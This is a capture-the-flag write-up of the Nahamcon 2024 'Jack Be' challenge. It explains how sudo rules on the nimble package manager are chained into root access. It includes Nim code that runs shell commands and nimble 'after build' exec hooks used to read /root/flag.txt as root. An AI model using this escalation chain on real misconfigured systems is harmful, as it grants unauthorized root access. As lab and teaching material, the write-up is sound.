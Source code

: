# Nahamcon Challenge: Jack Be

This challenge from Nahamcon 2024 CTF is of topic category `misc` and focuses on privilege escalation within Linux (medium difficulty).
The challenge text was given as:
> Wow! Jack is trying to learn one of the hottest new programming languages!!
> And on top of that, he wants you to learn it too! He has given you access to his development box. So generous of him! He said, "just don't hack it, please."
> Escalate your privileges and retrieve the contents of the /root/flag.txt file. 

> `Password is "userpass"`
> `ssh -p 31468 user@challenge.nahamcon.com`

## Enumeration

After logging into the box, we are user `user`:

```console
$ whoami
user
```

Checking `sudo -l` shows that we can run a specific command as user `jack`:

```console
$ sudo -l
(jack) NOPASSWD: /usr/bin/nimble run
```

`nimble` is the default package manager for the programming language `nim` and allows to create, install, and run nim-based packages. Due to the challenge hints, it is quite likely, that this is our entry point to full privilege escalation.

## Exploitation

Since we can only run nimble packages as jack, our goal is to craft such a package whose code then allows us to execute further commands.   
There are generally two easy ways to let nimble execute arbitrary commands:

1) Create a nim program that itself executes system commands. An example is provided below:

```nim
import osproc

var result = execProcess("whoami")
echo result
```

2) Another option is, to execute system commands provided in the nimble package configuration file. This can be done by forcing nimble to run commands `before build` or `after build` with `exec`. An example is illustrated below:

``` bash
# other settings and package info
# ...

# before package is built
before build:
  echo "before build"
  exec "whoami"

# after package is built
after build:
  echo "after build"
  exec "whoami"
```

As we have the choice, we choose option one and create a package. Therefore, first, `nimble` can be used to set up a valid empty package with `nimble init`. To avoid any write permission issues later, a new folder within `/tmp` was chosen. Typically, one has to set a name, some description, and a type.   
After the package is created, one sees a nimble configuration file `[project name].nimble` and a `src` folder with a hello world nim source.   
Next, the source code has to be changed to our system command in nim. To verify the procedure, we choose the example code above.
Then the package can be build. It is no problem, that we can only run `run` as this indirectly invokes any needed build processes.

```console
$ cd /tmp/[project folder]
$ sudo -u jack /usr/bin/nimble run
...
...
jack
```
As expected, the compiled program is run after compilation as user `jack`. From here, another enumeration phase has to be started as we do not know what rights jack has. In principle, we could spawn an explicit shell to do so but will keep it simple here. Just running `sudo -l` for jack shows:
```
(root) NOPASSWD: /usr/bin/nimble install *
```

Apparently, `jack` can let nimble install packages as root. Unfortunately, `install` does not run a package, but only creates the binary. Hence, we have to create a second package for jack and use option two to run system commands.   
Again, within `/tmp` we create a new folder, initialize a new package and edit the configuration file to:

``` bash
# other settings and package info
# ...

# after package is built
after build:
  exec "cat /root/flag.txt"
```

At this point, the source code of package 2 does not matter anymore. However, since we are still `user` and avoided unnecessary reverse or spawned shell environments, we have to run `jack`'s command through an adjusted version of package one. An example for the package source is given below:

```nim
import osproc

var result = execProcess("cd /tmp/[project two] && sudo /usr/bin/nimble install --silent --accept")
echo result
```

The command first sets the working directory as the package folder and then runs our nimble install as root. Note, that after compilation, the configuration file triggers the actual system command.

After everything is set up, we only have to run the following commands as `user`:

```console
$ cd /tmp/[project one]
$ sudo -u jack /usr/bin/nimble run
...
... // package one is build and run as "jack"
... // when run, package one installs package two as "root"
... // after compilation, the system commands are run as "root"
flag{7e8aee...9776ada}
```

This chain of privileged executions of nimble led to arbitrary commands as root, without the need of spawned shells.